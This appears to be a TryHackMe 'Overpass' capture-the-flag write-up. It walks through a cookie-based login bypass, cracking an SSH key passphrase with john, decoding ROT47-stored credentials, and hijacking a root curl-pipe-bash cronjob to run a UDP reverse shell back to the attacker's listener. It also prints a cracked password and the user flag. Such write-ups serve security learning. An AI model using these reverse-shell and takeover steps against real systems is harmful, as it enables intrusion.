 # Overpass
https://tryhackme.com/room/overpass

##  Hack the machine and get the flag in user.txt 
nmap scan returns port 22 & 80
website is hosted on 80
gobuster has found a directory: /admin
login screen with available login.js script visible that checks to see if a cookie has been set so we can set out own in console. `Cookies.set("SessionToken", statusOrCookie)` then refresh the page.

We now have a private key and a username "James" exposed by a message on the site.

This private key is projected by a password, so we're going to use ssh2john
`python3 ssh2john.py <privatekey> > hash.txt`
`john hash.txt --wordlist=<rockyou dir> --format=SSH`

SSH password: james13

Flag in user.txt
thm{65c1aaf000506e56996822c6281e6bf7}

## Escalate your privileges and get the flag in root.txt
in todo.txt that notes there's an automated build script running, weak encryption.

On downloads page there's the source for the password manager
http://<ip>/downloads/src/overpass.go

In the main() function it runs the code: `credsPath, err := homedir.Expand("~/.overpass")`
Which indicates that there are credentials stored in the .overpass file within a user's home directory.
Inside the james's user directory there's a .overpass file that contains the following:
_,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN._

Again, within the overpass.go source the main function calls another function called "loadCredsFromFile" which then calls a function called "rot47". This is a simple caeser substitution cypher that can easily be undone.

I used cyber chef and ROT47 to get some JSON data
https://gchq.github.io/CyberChef/#recipe=ROT47(47)&input=LExRPzI%2BNlFpUSRKREU2PlFbUUEyRERRaVFEMko1QzJIPz1KOj84QTo0RUZDNlFOLg  
`[{"name":"System","pass":"saydrawnlyingpicture"}]`

I can assume that "saydrawnlyingpicture" is James's password. The user can't run any sudo commands so this is useless.

I then starty looking into the note on an automated script which normally means a cronjob.
`crontab -l` returns no crontabs for the user james, however when checking /etc/crontab we can see a crontab
```
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

This references the buildscript that is on the download's page. As this uses a vhost I decide to edit the /etc/hosts file to change the script to connect to my IP instead.

I create a file called downloads/src/buildscript.sh on my local machine with the below contents
Bash UDP Reverse Shell: `sh -i >& /dev/udp/<my IP>/4242 0>&1` then ran the command `nc -u -lvp 4242` on my machine to start a listener.

I then started a HTTP Server on my machine so the victim could curl my file and run it.
`sudo python3 -m http.server 80 --bind 10.9.180.40`

Once the victim downloaded the file and executed, I was able to establish a reverse shell connection using my netcat listener and from there I have root access.

I could also have created a script that read the contents of the root flag file then wrote them to the james user, however I wanted to be able to control this root user completely.
